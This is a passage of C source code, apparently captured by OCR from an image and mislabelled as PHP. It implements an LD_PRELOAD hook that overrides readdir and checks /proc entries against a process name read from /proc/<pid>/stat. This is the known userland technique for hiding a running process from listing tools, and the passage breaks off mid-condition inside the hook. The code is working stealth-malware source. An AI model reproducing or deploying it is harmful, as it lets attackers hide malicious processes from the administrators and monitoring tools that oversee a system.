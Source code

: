 ```php
    snprintf(tmp, sizeof(tmp), "/proc/self/fd/%d", fd);
    ssize_t ret = readlink(tmp, buf, size);
    if(ret == -1) {
        return 0;
    }

    buf[ret] = 0;
    return 1;
}

/*
 * Get a process name given its pid
 */
static int get_process_name(char* pid, char* buf)
{
    if(strspn(pid, "0123456789") != strlen(pid)) {
        return 0;
    }

    char tmp[256];
    snprintf(tmp, sizeof(tmp), "/proc/%s/stat", pid);

    FILE* f = fopen(tmp, "r");
    if(f == NULL) {
        return 0;
    }

    if(fgets(tmp, sizeof(tmp), f) == NULL) {
        fclose(f);
        return 0;
    }

    fclose(f);

    int unused;
    sscanf(tmp, "%d (%[^)]s", &unused, buf);
    return 1;
}

#define DECLARE_READDIR(dirent, readdir)                                \
static struct dirent* (*original_##readdir)(DIR*) = NULL;               \
                                                                        \
struct dirent* readdir(DIR *dirp)                                       \
{                                                                       \
    if(original_##readdir == NULL) {                                    \
        original_##readdir = dlsym(RTLD_NEXT, #readdir);               \
        if(original_##readdir == NULL)                                  \
        {                                                               \
            fprintf(stderr, "Error in dlsym: %s\n", dlerror());         \
        }                                                               \
    }                                                                   \
                                                                        \
    struct dirent* dir;                                                 \
                                                                        \
    while(1)                                                            \
    {                                                                   \
        dir = original_##readdir(dirp);                                 \
        if(dir) {                                                       \
            char dir_name[256];                                         \
            char process_name[256];                                     \
            if(get_dir_name(dirp, dir_name, sizeof(dir_name)) &&        \
                strcmp(dir_name, "/proc") == 0 &&                       \
                get_process_name(dir->d_name, process_name) &&          \
```